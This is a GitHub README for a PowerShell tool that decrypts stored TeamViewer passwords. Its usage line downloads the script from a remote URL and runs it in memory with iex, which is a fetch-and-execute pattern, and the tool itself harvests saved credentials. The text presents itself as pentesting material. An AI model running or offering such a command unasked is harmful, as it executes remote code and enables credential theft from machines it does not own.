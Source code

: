 # TeamViewerDecrypt - Powershell

Just a quick dirty Powershell implementation of [whynotsecurity](https://github.com/whynotsecurity/)´s Teamviewer decrypt script.

All credit goes to him, blog post can be found here: https://whynotsecurity.com/blog/teamviewer/

Not all passwords in every version can be decrypted using this script. I could not decrypt Teamviewer v14/v15 PermanentPasswords so far.

Usage as simple as:

```
iex (new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/TeamViewerDecrypt/master/TeamViewerDecrypt.ps1');TeamviewerDecrypt
```
![alt text](https://github.com/S3cur3Th1sSh1t/TeamViewerDecrypt/raw/master/Decrypt.JPG)

As always only use for educational or pentesting purposes. :)
